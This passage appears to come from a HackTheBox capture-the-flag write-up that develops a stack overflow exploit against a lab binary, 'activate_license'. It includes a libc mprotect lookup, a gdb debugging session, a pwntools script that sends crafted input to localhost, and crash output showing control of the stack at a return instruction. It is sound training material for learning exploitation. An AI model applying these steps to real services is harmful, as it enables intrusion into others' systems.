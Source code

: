 ```
$ readelf -s libc-2.31.so| grep mprotect
  1225: 00000000000f8c20    33 FUNC    WEAK   DEFAULT   14 mprotect@@GLIBC_2.2.5
```

{% embed url="https://man7.org/linux/man-pages/man2/mprotect.2.html" %}

However, it should be noted that it is possible to run the exploit even without this. This is because we can just call `system` to execute our shell instead.

Now, we need to figure out how to cause a crash in the binary such that we can control the execution flow. &#x20;

```
$ gdb -q --args ./activate_license 1337
Reading symbols from ./activate_license...
gdb-peda$ set follow-fork-mode child
gdb-peda$ run
Starting program: /home/kali/htb/retired/activate_license 1337
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[+] starting server listening on port 1337
[+] listening ...
```

Afterwards, we can create a quick Python script to send the input:

{% code overflow="wrap" %}
```python
from pwn import *
import sys
msg = sys.argv[1].encode()
r = remote('localhost', 1337)
r.send(p32(len(msg), endian='big'))
r.send(msg)
```
{% endcode %}

When run, our `gdb` window shows that it crashes with a pattern of length 2000.

```
[----------------------------------registers-----------------------------------]
RAX: 0x2d6 
RBX: 0x7fffffffde98 --> 0x7fffffffe1ff ("/home/kali/htb/retired/activate_license")
RCX: 0x0 
RDX: 0x0 
RSI: 0x5555555592a0 ("[+] activated license: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAA"...)
RDI: 0x7fffffffd580 --> 0x7ffff7cb0e70 (<__funlockfile>:        mov    rdi,QWORD PTR [rdi+0x88])
RBP: 0x4e73413873416973 ('siAs8AsN')
RSP: 0x7fffffffdd18 ("AsjAs9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6\377\177")
RIP: 0x5555555555c0 (<activate_license+643>:    ret)
R8 : 0x555555559535 ("BEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6\377\177\n")
R9 : 0x7ffff7dcd580 (<__memcpy_ssse3+320>:      movaps xmm1,XMMWORD PTR [rsi+0x10])
R10: 0x0 
R11: 0x202 
R12: 0x0 
R13: 0x7fffffffdeb0 --> 0x7fffffffe22c ("COLORFGBG=15;0")
R14: 0x0 
R15: 0x7ffff7ffd020 --> 0x7ffff7ffe2e0 --> 0x555555554000 --> 0x10102464c457f
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x5555555555b9 <activate_license+636>:       call   0x5555555550b0 <printf@plt>
   0x5555555555be <activate_license+641>:       nop
   0x5555555555bf <activate_license+642>:       leave  
=> 0x5555555555c0 <activate_license+643>:       ret    
```